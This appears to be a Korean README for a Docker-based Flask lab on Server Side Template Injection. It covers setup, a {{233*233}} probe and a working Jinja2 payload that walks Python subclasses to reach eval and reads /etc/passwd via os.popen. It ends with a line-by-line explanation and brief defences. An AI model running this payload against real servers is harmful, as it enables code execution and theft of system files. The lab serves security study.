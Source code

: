 # SSTI

**Contributors**

-   [박현재(@parK1NG)](https://github.com/park1NG)

<br/>

### 개요

-   SSTI(Server Side Template Injection)은 공격자가 서버측 템플릿 구문을 통한 악성 페이로드를 페이지에 삽입하여 실행되도록 하는 공격기법이다.
-   SSTI 공격은 공격자가 서버에서 임의의 코드를 실행할 수 있는 사용자 입력으로 템플릿 지시문을 주입할 때 가능하다. 
-   해당 공격 등을 통해서 리눅스의 사용자 목록을 알아내거나 리버스 쉘이 가능해서 서버에 매우 위협이 되는 동작을 수행할 수 있다.
-   고급 사용자 제공 마크업을 지원하는 웹 애플리케이션(ex: 위키, 블로그, 마케팅 애플리케이션, 콘텐츠 관리 시스템 등)은 서버 측 템플릿 인젝션에 취약할 수 있다.
-   사용자 입력이 단순히 템플릿에 직접 연결되는 경우 의도하지 않은 템플릿 인젝션이 발생할 수 있으며, 이는 잘못 작성된 준비된 문장에서 발생하는 SQL 인젝션 취약점과 유사하다.

<br/>

### 환경 구성 및 실행

-   `docker compose build`를  `docker-compose.yml` 파일을 찾아 해당 파일에 정의된 서비스(컨테이너)에 대한 이미지를 빌드함.
-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8000/`에 접속하여 flask 기본 페이지를 확인함.
-   `http://your-ip/?name={{233*233}}`를 호출하여 반환 결과를 읽음. 결과에서 54289를 보고 SSTI 취약점이 발생할 수 있음을 알 수 있다.

<br/>

### POC code

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("cat /etc/passwd").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

-   `for c in [].__class__.__base__.__subclasses__()`: - 빈 리스트([]) 클래스의 기본 클래스를 기준으로 하위 클래스(subclasses)를 반복적으로 탐색함.
-   `if c.__name__ == 'catch_warnings'`: 하위 클래스 중에서 클래스 이름이 'catch_warnings'인 클래스를 찾음.
-   `for b in c.__init__.__globals__.values()`: 'catch_warnings' 클래스의 __init__ 메서드 내부의 전역 변수(global variables)를 반복적으로 탐색.
-   `if b.__class__ == {}.__class__` : 전역 변수가 빈 딕셔너리({}) 클래스와 같은 클래스인 경우를 확인
-   `if 'eval' in b.keys()`: 딕셔너리에 'eval' 키가 존재하는지 확인
-   `{{ b['eval']('__import__("os").popen("cat /etc/passwd").read()') }}`: 'eval' 키가 있는 경우, os.popen("id").read()를 실행하여 호스트 시스템에서 'cat /etc/passwd' 명령을 실행하고 결과를 반환



<br/>

### 결과

![](result1.png)  

![](result2.png)
<br/>

### SSTI 취약점 대비 방법

-   SSTI 공격으로부터 웹 애플리케이션을 보호하기 위해 `Mustache` 또는 파이썬의 템플릿과 같은 위험이 낮은 접근 방식을 사용한다 
-   또한 MediaWiki와 같은 일부 웹 애플리케이션은 잠재적으로 위험한 모듈과 함수가 제거된 샌드박스화된 Lua 환경에서 사용자 코드를 실행한다.
